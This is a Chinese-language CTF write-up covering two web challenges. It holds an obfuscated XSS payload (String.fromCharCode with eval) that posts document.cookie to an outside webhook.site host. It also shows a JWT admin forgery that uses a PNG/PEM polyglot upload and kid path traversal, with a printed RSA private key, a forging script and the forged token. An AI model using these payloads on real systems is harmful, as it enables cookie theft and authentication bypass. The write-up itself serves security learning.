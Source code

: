 # web
### b01ler-ad
post `/review`接口,会有一个浏览器来访问http://localhost:3000/admin/view?content?=${content}
,发送一个html文档,

过滤了' " \` 使用String.fromCharCode绕过
 应该是xss读cookie,就是直接发个html,fetch,注意加个no-cors,不然无法跨域

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>upload</title>
</head>
<body>
<script>
eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,97,50,48,99,57,102,57,100,45,98,53,48,54,45,52,97,56,97,45,57,51,100,97,45,99,101,53,52,102,100,56,55,100,48,54,97,39,44,123,109,101,116,104,111,100,58,39,80,79,83,84,39,44,109,111,100,101,58,39,110,111,45,99,111,114,115,39,44,98,111,100,121,58,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,41))</script>

</body>
</html>
```
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240413232240.png)

### imagehost
flag在上传的png里,登录为admin即可
`FLAG_FILENAME="$(python3 -c 'import uuid;print(uuid.uuid4())').png"`

Route("/", home),   主页,jwt鉴权,给出当前用户所有上传的照片
Route("/login", login_get), 返回login.html,jinjia2渲染无ssti
Route("/login", login, methods=["POST"]),    传入用户名/密码,fetchone,设置jwt里userid和admin
Route("/register", register_get),             register.html
Route("/register", register, methods=["POST"]),   insert,参数化
Route("/logout", logout),                  
Route("/", upload, methods=["POST"]),        上传文件,
Route("/view/{filename}", view),   
```python
async def view(request):
	filename = request.path_params["filename"]
	
	path = UPLOAD_FOLDER.joinpath("a").with_name(filename)
	if not path.exists():
		return PlainTextResponse("Image not found", 404)
	
	return FileResponse(UPLOAD_FOLDER.joinpath("a").with_name(filename))
```

需要伪造admin用户,使用的是非对称加密,且公钥(decode)的文件位置可指定,能否通过upload上传公钥文件,,且pem还要符合png的标准

我为我的无知道歉,pem的格式是这样的
```pem
-----BEGIN RSA PRIVATE KEY-----
MIICXAIBAAKBgQCT96Ir3DM+PtlpHqyI8YOBOKyAexIO5RMpwUgUndIRBs72g0Ga
Tyy8yxKbMCaJ2nLQBC9D6cOp8UzHBeirsk0rYETGQBFqHzOvjod3VjE+9eRMJGl7
oohwHUzqHUOoNDKLvz2HuoVtRHawfw4EHCx9OTNyWct7jjg9VV0EEz9IdQIDAQAB
AoGAbFR3kZ70kVTYPYLslJIlUj0Y5jO0Y91Iq2BLknR9MGQIsCgmpn/i5BHU/HND
M9gQCMWXiSQjUU9Ng8SKtPGkVsl22mNZkRb69Ca1083pI2HxwL3dhEXl+VLD37w+
Cg+9glWnsjdUFy8WoiTun0yWJHiXKN2VRCv759+vJS6M150CQQDDQt2HoKEKVsU1
RLyRpr93Idtmzplro48zsvsmuCZJyNnpn4VYz7BFvu7SDX4Xkz1dr9gELnTvnQY3
rBWNQOXzAkEAwf6jpDFa+JL9/CLLTxuwn51Or8C4zcd1LjrmsqWz8SYDnuAZo4Vg
A2MlVAYpbk1XfVWzGPxralsa9+Zrl9yp9wJATmQe2h+T57m0TNF+vx7pyWNPWTPi
hkNQ75mQmRffT0oSqmd/uosPIsEn0i7Wi5JyVZWOLQeVrMkmwN0WffIrHwJBAIM2
4Sil2YpYokJwpmOTrxvHIvntuRI23yOt42zid5ucwsYrfiwEgrTH0u/KWyuoVI0J
8mHsGhuOE+epiwzkzHECQCN3G0+GcCfE6eYF5yW19n7QoK3sxU5HbwXKoAeXgM0z
TEiGjWVM5w+Ea21IUsE2O2CIG1CePqUI2DSujYCo7Oc=
-----END RSA PRIVATE KEY-----
```
或者说view路由读取公钥文件?

实践出真知!!!,只要不破坏pem文件格式也可以解析
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414025437.png)

类似于图片马的制作,在一个图片中间把公钥加上去
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414035316.png)


照着原来的代码写一个加密,注意在linux上跑...
```python
import jwt
from pathlib import Path


payload={"user_id":1,"admin":True}

def encode(payload, public_key: Path, private_key: Path):
        key = private_key.read_bytes()
        return jwt.encode(payload=payload, key=key, algorithm="RS256", headers={"kid": str(public_key)})
print(encode(payload=payload,public_key=Path('../../../../../../uploads/2b170008-668c-4810-9b38-3815912a675b.png'),private_key=Path('/tmp/private.pem')))
```

output`eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Ii4uLy4uLy4uLy4uLy4uLy4uL3VwbG9hZHMvMmIxNzAwMDgtNjY4Yy00ODEwLTliMzgtMzgxNTkxMmE2NzViLnBuZyJ9.eyJ1c2VyX2lkIjoxLCJhZG1pbiI6dHJ1ZX0.fBuVTPsTuxKvVfpTUsi8qcDt07TqNZaORzH936DSgCT_xn5AtblipxDWKIHCbRRQyb1E2fwCQI7S9ORYNEb71PCrAHSop2akS084yIssIyVM3JGCVKpNrOvt-ta6Ua3TemAcpuI3Jx8jE_HTIot0rdBahS_DVXuZ8-NHn2YqIOo`

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414034815.png)


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-13   22:21